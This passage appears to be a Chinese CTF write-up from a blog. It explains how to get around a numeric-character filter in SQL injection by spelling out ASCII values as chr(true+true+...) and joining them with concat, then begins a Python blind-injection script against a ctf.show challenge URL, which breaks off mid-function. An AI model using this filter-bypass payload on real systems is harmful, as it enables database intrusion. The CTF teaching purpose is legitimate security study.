 

<img src="https://i-blog.csdnimg.cn/blog_migrate/1a33371b348dab0422a1c45091a69e65.png" alt="" style="max-height:741px; box-sizing:content-box;" />


我们来解释一下

```cobol
def createNum(s):
    num = 'true' 首先这里是把数字定义为true
    if s == 1:   如果只是1 那么就返回一个true
        return 'true'
    else:
        for i in range(s-1):  否则就返回 s个true
            num +='+true'  这里看似是s-1 但是这里是 num+= 所以还是s个
        return num
 
def createStrNum(n):
    str=''
    str+="chr("+createNum(ord(n[0]))+")" 这里更简单了 其实就是输出一个字符串罢了
首先将 第一个字符转为true格式 然后再加上chr 即可
    for i in n[1:]:
        str += ",chr(" + createNum(ord(i)) + ")"
这里就是除了第一个后面 也按照这种格式进行  但是这里需要通过，
    return str
 
 
给出个例子大家就明白了
 
我们现在输入一个 3 
 
其本身的ascii值为51 
 
然后通过 createNum 获取到 51个 true
 
然后放入 createStrNum中
 
就变为了 chr(true+true+.....+true)
```

这里我们就可以绕过数字过滤了

这里我们要注意 我们在payload 中需要加上 concat 将其chr后组合为一个字符串



<img src="https://i-blog.csdnimg.cn/blog_migrate/7f3cdb2d9e6f01228d45283115e7ee73.png" alt="" style="max-height:286px; box-sizing:content-box;" />


发现 组合为一起了 这样子 我们才可以构成 0x6164 这种

```cobol
import string
 
import requests
 
url = 'http://6ec04948-9cb4-4ed1-9cc8-d72f9ab75d93.challenge.ctf.show/select-waf.php'
 
payload = 'ctfshow_user group by pass having pass like(concat({}))'
 
flag ='ctfshow{'
 
def createNum(n):
    num = 'true'
    if n == 1:
        return 'true'
    else:
        for i in range(n-1):
            num+="+true"
```